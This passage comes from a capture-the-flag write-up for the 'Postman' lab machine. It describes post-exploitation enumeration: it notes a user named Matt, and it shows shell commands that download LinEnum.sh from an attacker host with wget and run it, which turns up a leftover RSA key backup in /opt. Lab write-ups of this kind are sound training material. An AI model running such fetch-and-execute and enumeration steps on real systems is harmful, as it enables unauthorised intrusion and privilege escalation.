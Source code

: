![Postman/login-user.png](Postman/login-user.png)

![Postman/Matt.png](Postman/Matt.png)

there is another user on the box called **Matt**

### Elevate privileges

1- **From redis to Matt**

Since we don't have a password for the **redis** user, we go to enumeration. 

Uploaded [LinEnum.sh](http://linenum.sh) to the box.

    redis@Postman>> cd /tmp
    redis@Postman>> wget http://10.10.14.5:8000/LinEnum.sh
    redis@Postman>> chmod +x LinEnum.sh  #to make the script executable
    redis@Postman>> ./LinEnum.sh
    

From the output we see that there is a backup of **RSA** key left at /**opt**/ folder

![Postman/id_rsa.bak.png](Postman/id_rsa.bak.png)
